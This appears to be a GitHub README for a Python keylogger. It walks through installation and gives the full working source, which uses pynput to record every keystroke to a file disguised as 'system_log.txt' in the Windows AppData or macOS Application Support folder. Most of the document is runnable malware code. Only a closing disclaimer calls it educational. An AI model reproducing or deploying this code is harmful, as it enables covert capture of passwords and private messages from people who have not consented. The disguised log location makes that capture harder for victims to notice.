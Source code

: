 # Keylogger.py

## Overview

This Python script is a simple keylogger that captures and logs keyboard events to a file. It uses the `pynput` library to listen for keyboard events and records them into a log file. The script is designed to work on both Windows and macOS operating systems.

## Features

- Logs key presses and releases.
- Records special keys (e.g., space, enter) by their names.
- Stores the log file in an appropriate directory based on the operating system.
- Stops logging when the Escape key is pressed.

## Requirements

- Python 3.x
- `pynput` library

## Installation

1. Install Python 3 from [python.org](https://www.python.org/downloads/).
2. Install the `pynput` library using pip:
    ```sh
    pip install pynput
    ```

## Usage

1. Save the script as `keylogger.py`.
2. Run the script:
    ```sh
    python keylogger.py
    ```

## Code Explanation

### Importing Libraries

```python
import os
import platform
from pynput import keyboard
```

- `os`: Provides functions to interact with the operating system.
- `platform`: Used to determine the operating system type.
- `pynput.keyboard`: Provides classes and functions to monitor and control keyboard events.

### Getting the Log File Path

```python
def get_log_file_path():
    """Determine the path to the log file based on the operating system."""
    if platform.system() == 'Windows':
        appdata_dir = os.getenv('APPDATA')
        log_file = os.path.join(appdata_dir, 'system_log.txt')
    else:
        app_support_dir = os.path.expanduser('~/Library/Application Support')
        log_file = os.path.join(app_support_dir, 'system_log.txt')
    return log_file

log_file = get_log_file_path()
os.makedirs(os.path.dirname(log_file), exist_ok=True)
```

- Determines the appropriate log file path based on the operating system.
- On Windows, the log file is stored in the `%APPDATA%` directory.
- On macOS, the log file is stored in the `~/Library/Application Support` directory.
- Ensures the directory for the log file exists.

### Handling Key Press Events

```python
def on_press(key):
    """Callback function to handle key press events."""
    try:
        with open(log_file, 'a') as f:
            f.write(f'{key.char}')
    except AttributeError:
        with open(log_file, 'a') as f:
            f.write(f'[{key}]')
```

- Logs the character of the key pressed.
- If the key is a special key (e.g., space, enter), it logs the name of the key.

### Handling Key Release Events

```python
def on_release(key):
    """Callback function to handle key release events."""
    if key == keyboard.Key.esc:
        return False
```

- Stops the keylogger when the Escape key is released.

### Starting the Keylogger

```python
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

- Starts the keyboard event listener.
- Joins the listener to the main thread to keep it running.

## Disclaimer

This keylogger is for educational purposes only. Unauthorized use of a keylogger to capture keystrokes without the user's consent is illegal and unethical. Use this script responsibly and only on systems where you have explicit permission to do so.